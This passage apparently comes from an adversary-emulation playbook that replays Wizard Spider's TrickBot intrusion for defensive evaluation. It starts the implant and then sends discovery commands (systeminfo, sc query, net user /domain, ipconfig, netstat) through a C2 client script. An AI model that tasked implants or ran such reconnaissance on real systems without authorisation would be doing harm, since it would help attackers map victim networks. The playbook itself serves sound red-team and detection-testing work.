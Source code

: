  Kick off exeuction by starting TrickBotClientExe.exe

```bash
cd %AppData%
uxtheme.exe
```

#### :microscope: Cited Intelligence

* <https://attack.mitre.org/groups/G0102/>

* <https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/>

### Step 5 - TrickBot Discovery

:microphone: `Voice Track:`

In step 5 Wizard Spider uses TrickBot to perform detailed system discovery.

You will see TrickBot executing shell commands, such as systeminfo, sc.exe, net.exe, and so on.

Trickbot executes commands via the C standard library function, `system()`.

#### ☣️ Procedures

Switch back to your C2 terminal window.

Execute the following commands.

```bash
# TrickBot gathers the OS version, machine name, CPU type, amount of RAM available, and UEFI/BIOS firmware information from the victim’s machine.[1][2][7][12]

./evalsC2client.py --set-task TrickBot-Implant "systeminfo > discovery.txt"
```

```bash
# TrickBot collects a list of install programs and services on the system’s machine.[1]

./evalsC2client.py --set-task TrickBot-Implant "sc query >> discovery.txt"
```

```bash
# TrickBot collects the users of the system.[1][6]

./evalsC2client.py --set-task TrickBot-Implant "net user >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant  "net user /domain >> discovery.txt"
```

```bash
# TrickBot obtains the IP address, location, and other relevant network information from the victim’s machine.[1][6][7]

./evalsC2client.py --set-task TrickBot-Implant "ipconfig /all"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "netstat -tan"
```
